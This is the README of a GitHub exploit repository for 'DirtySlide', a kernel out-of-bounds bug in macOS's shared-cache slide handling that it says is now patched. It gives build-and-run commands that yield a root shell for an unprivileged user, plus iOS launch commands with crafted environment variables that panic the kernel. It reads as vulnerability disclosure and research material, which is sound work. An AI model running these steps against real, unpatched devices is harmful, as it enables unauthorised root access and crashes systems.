

<p align="center"></p>

# DirtySlide

Unprivileged → root macOS LPE. An 8-byte OOB read/write into kernel memory adjacent to a dyld
shared-cache page, from a missing in-page bounds check in the v5 slide walk
(`vm_shared_region_slide_page_v5`), reachable via syscall 536.

**Patched** in macOS 26.5.2 (`25F84`, `xnu-12377.121.10`). Vulnerable through the 26.5 betas
(`xnu-12377.120.72`).

Writeup: https://gracecondition.github.io/posts/dirtyslide/

## Build & run

```sh
make                 # builds the payload into ./dist
./dist/run.sh        # run on the target VM as an unprivileged user → root shell
```

Tested on macOS 26.5 (`25F5042g`) arm64 under Apple Virtualization (VMAPPLE). The physical
scan panics ~50% of runs; the guest reboots, just run again.

## Build & run on iOS
- Build this Xcode project
- Launch app and press "Crash in dsc region"
- Type the following command (TODO: do this on-device using idevice + VPN?)
```
# Note: I added _SafeMode so it can also be reproduced on jailbroken device.
# As it does some trick to switch between in-cache dylibs and fake dylibs,
# it will cause missing libraries when linking against tweak libraries

export CORE_DEVICE_ID=iPhone-0x11-cua-Duy.coredevice.local
export APP_BUNDLE_ID=com.ios.DirtySlide
# replace with your device and bundle ID

# on macOS:
xcrun devicectl device process launch --device $CORE_DEVICE_ID --console --no-activate -e '{"_SafeMode": "1", "DYLD_SHARED_CACHE_DIR": "/a"}' $APP_BUNDLE_ID

# on Linux/Windows: use pymobiledevice3
pymobiledevice3 developer dvt launch --env DYLD_SHARED_CACHE_DIR /a --env _SafeMode 1 --stream $APP_BUNDLE_ID
```
- Done. Kernel panicked. If it doesn't work try again after 3 minutes
